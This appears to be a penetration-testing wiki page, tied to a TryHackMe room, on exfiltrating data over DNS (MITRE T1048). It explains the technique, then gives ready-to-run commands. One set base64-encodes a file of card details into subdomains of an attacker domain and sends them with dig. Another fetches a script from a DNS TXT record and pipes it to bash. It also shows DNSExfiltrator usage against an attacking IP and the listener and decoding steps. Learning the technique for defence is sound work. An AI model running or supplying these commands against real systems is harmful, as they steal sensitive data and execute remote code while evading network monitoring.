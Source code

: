 ```yaml
---
description: MITRE ATT&CK™  - Exfiltration Over Alternative Protocol - Technique T1048
---
```


# Over DNS

## Theory

The DNS protocol is a common protocol and Its primary purpose is to resolve domain names to IP addresses and vice versa. Even though the DNS protocol is not designed to transfer data, threat actors found a way to abuse and move data over it.\
Since DNS is not a transport protocol, many organizations don't regularly monitor the DNS protocol! The DNS protocol is allowed in almost all firewalls in any organization network. For those reasons, threat actors prefer using the DNS protocol to hide their communications.

### Limitations

The DNS protocol has limitations that need to be taken into consideration, which are as follows,

* The maximum length of the Fully Qualified FQDN domain name (including .separators) is 255 characters.
* The subdomain name (label) length must not exceed 63 characters (not including .com, .net, etc).

### Scenario

Now let's discuss the Data Exfiltration over DNS requirements and steps, which are as follows:\
1 - An attacker registers a domain name, for example, tunnel.com\
2 - The attacker sets up tunnel.com's NS record points to a server that the attacker controls.\
3 - The malware or the attacker sends sensitive data from a victim machine to a domain name they control—for example, passw0rd.tunnel.com, where passw0rd is the data that needs to be transferred.\
4 - The DNS request is sent through the local DNS server and is forwarded through the Internet.\
5 - The attacker's authoritative DNS (malicious server) receives the DNS request.\
6 - Finally, the attacker extracts the password from the domain name.

## Practice

{% tabs %}
{% tab title="Manualy" %}
{% hint style="info" %}
We concider that a NS record named `t1.tunnel.com` as been registred. It's poiting the Attacking IP.
{% endhint %}

In order to receive any DNS request on the attacking machine, we need to capture the network traffic for any incoming UDP/53 packets using the [tcpdump](https://github.com/the-tcpdump-group/tcpdump) tool.

```bash
v4resk@kali$ sudo tcpdump -i eth0 udp port 53 -v 
```

On the victim machine, we first encode datas that need to be send, and split it into one or multiple DNS requests depending on the output's length (DNS limitations) and attach it as a subdomain name.

```bash
# Methode 1
victim@pwnd.lab$ cat credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.t1.tunnel.com/' > toExfiltrate.txt
victim@pwnd.lab$ cat toExfiltrate.txt
TmFtZTogVEhNLXVzZX.t1.tunnel.com
IKQWRkcmVzczogMTIz.t1.tunnel.com
NCBJbnRlcm5ldCwgVE.t1.tunnel.com
hNCkNyZWRpdCBDYXJk.t1.tunnel.com
OiAxMjM0LTEyMzQtMT.t1.tunnel.com
IzNC0xMjM0CkV4cGly.t1.tunnel.com
ZTogMDUvMDUvMjAyMg.t1.tunnel.com
pDb2RlOiAxMzM3Cg==.t1.tunnel.com

#Methode 2
victim@pwnd.lab$ cat credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ > toExfiltrate.txt
victim@pwnd.lab$ cat toExfiltrate.txt
TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.t1.tunnel.com
```

In order to send this datas, on the compromised host we can do:

```bash
victim@pwnd.lab$ cat toExfiltrate.txt | awk '{print "dig +short " $1}' | bash
```

Finally, on the attacking machine, we can decrypt datas as follow:

```bash
v4resk@kali$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.t1.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
```
{% endtab %}

{% tab title="Command Execution" %}
Let's see how can tunneling code execution via the DNS protocol. We first need to create a `TXT` record containing our script encoded in base64. Let's take`script.tunnel.com` as example.

```bash
#Check if the TXT record is well configured
victim@pwnd.lab$ dig +short -t TXT script.tunnel.com
"IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo="

#Execution over DNS
victim@pwnd.lab$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
```
{% endtab %}

{% tab title="DNSExfiltrator" %}
[DNSExfiltrator](https://github.com/Arno0x/DNSExfiltrator) allows for transfering (exfiltrate) a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel.\
On the attacking machine we do:

```bash
v4resk@kali$ ./dnsexfiltrator.py -d mydomain.com -p password
```

On the compromised host:

```bash
dnsExfiltrator.exe secrets.xls mydomain.com password s=ATTACKING_IP t=500
```
{% endtab %}
{% endtabs %}

### DNS Tunneling

An other methode is to tunneling other protocols over DNS. Check this page for more details.

{% content-ref url="../pivoting/dnsTunneling.md" %}
[dnsTunneling.md](../pivoting/dnsTunneling.md)
{% endcontent-ref %}

## Resources

{% embed url="https://tryhackme.com/room/dataxexfilt" %}
